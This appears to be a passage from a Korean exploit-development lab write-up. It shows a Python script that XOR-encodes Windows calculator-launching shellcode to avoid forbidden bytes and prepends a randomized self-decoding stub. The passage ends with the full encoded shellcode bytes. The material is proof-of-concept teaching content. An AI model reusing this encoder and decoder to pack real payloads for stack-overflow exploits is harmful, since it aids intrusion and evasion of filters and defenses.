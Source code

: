 ```python
	xor_shellcode = xor(org_shellcode, xor_key)
	test = xor_shellcode + xor_key
	isText = True
	for b in test:
		if b in noText:
			print(type(b), b, type(noText[0]))
			isText = False
			break
	if isText == True:
		break

decoder1 = b"\xe8\xff\xff\xff\xff\xc2\x5e"
decoder2 = b"\x33\xc9\xb1" + bytes([len(org_shellcode)//4 + 1])
decoder3 = b"\xbf" + xor_key
decoder_rand = [decoder1, decoder2, decoder3]
random.shuffle(decoder_rand)
decoder = b"".join(decoder_rand)
getpc_offset = len(decoder) - decoder.index(decoder1) + 3
decoder4 = b"\x31\x7e" + bytes([getpc_offset]) + b"\x83\xc6\x04" + b"\xe2\xf8"
decoder += decoder4

print(" [+] Window Calc_Shellcode")
print("Key : " + conv_hex(xor_key) + "\n")
print("Orginal : " + conv_hex(org_shellcode)+ "\n")
print("Encoded : " + conv_hex(decoder) + conv_hex(xor_shellcode) + "\n")
string = conv_hex(decoder) + conv_hex(xor_shellcode)

for idx, char in enumerate(string):
	if idx % 64 == 0:
		print("\tb\"", end='')
	print(char, end='')
	if idx % 64 == 63 or idx == len(string) - 1:
		print("\"")
```

`org_shellcode`가 계산기를 띄워주는 universal shellcode이고 `noText` 배열의 문자는 들어가지 않도록 인코딩하였다. 매번 다르게 나오기 때문에 이 글에서는 아래의 쉘코드로 했음을 미리 명시한다.

참고로 이전 실습 때 작성하였던 universal shellcode와 달리 초반에 `mov ebp, esp` 명령어를 추가해 주었는데, 이는 stack overflow가 일어나면서 ebp값이 꼬이는 상황을 대비해 다시 스택부분을 가리키도록 하기 위함이다.

```python
b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
```

---